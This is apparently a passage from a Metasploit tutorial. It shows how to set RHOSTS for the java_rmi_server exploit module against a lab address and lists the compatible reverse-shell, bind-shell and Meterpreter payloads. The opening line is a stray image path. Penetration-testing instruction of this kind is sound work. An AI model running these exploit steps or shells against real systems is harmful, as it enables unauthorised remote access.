 ```shell

View the full module info with the info, or info -d command.
```

Typically, the `RHOSTS` and `RPORT` settings are required. If `RPORT` is already set, you can proceed to set the `RHOSTS`. Here's a helpful tip: Use setg to set the values globally. This way, the settings will be saved when switching between modules:

```shell
msf6 exploit(multi/misc/java_rmi_server) > setg RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
```

You can select different payloads depending on the context. In general, you don't change the exploit itself, but rather the code it uses to establish a reverse shell:

```shell
msf6 exploit(multi/misc/java_rmi_server) > show payloads

Compatible Payloads
===================

   #   Name                                     Disclosure Date  Rank    Check  Description
   -   ----                                     ---------------  ----    -----  -----------
   0   payload/generic/custom                                    normal  No     Custom Payload
   1   payload/generic/shell_bind_aws_ssm                        normal  No     Command Shell, Bind SSM (via AWS API)
   2   payload/generic/shell_bind_tcp                            normal  No     Generic Command Shell, Bind TCP Inline
   3   payload/generic/shell_reverse_tcp                         normal  No     Generic Command Shell, Reverse TCP Inline
   4   payload/generic/ssh/interact                              normal  No     Interact with Established SSH Connection
   5   payload/java/jsp_shell_bind_tcp                           normal  No     Java JSP Command Shell, Bind TCP Inline
   6   payload/java/jsp_shell_reverse_tcp                        normal  No     Java JSP Command Shell, Reverse TCP Inline
   7   payload/java/meterpreter/bind_tcp                         normal  No     Java Meterpreter, Java Bind TCP Stager
   8   payload/java/meterpreter/reverse_http                     normal  No     Java Meterpreter, Java Reverse HTTP Stager
   9   payload/java/meterpreter/reverse_https                    normal  No     Java Meterpreter, Java Reverse HTTPS Stager
   10  payload/java/meterpreter/reverse_tcp                      normal  No     Java Meterpreter, Java Reverse TCP Stager
   11  payload/java/shell/bind_tcp                               normal  No     Command Shell, Java Bind TCP Stager
   12  payload/java/shell/reverse_tcp                            normal  No     Command Shell, Java Reverse TCP Stager
   13  payload/java/shell_reverse_tcp                            normal  No     Java Command Shell, Reverse TCP Inline
   14  payload/multi/meterpreter/reverse_http                    normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTP Stager (Multiple Architectures)
   15  payload/multi/meterpreter/reverse_https                   normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTPS Stager (Multiple Architectures)
```
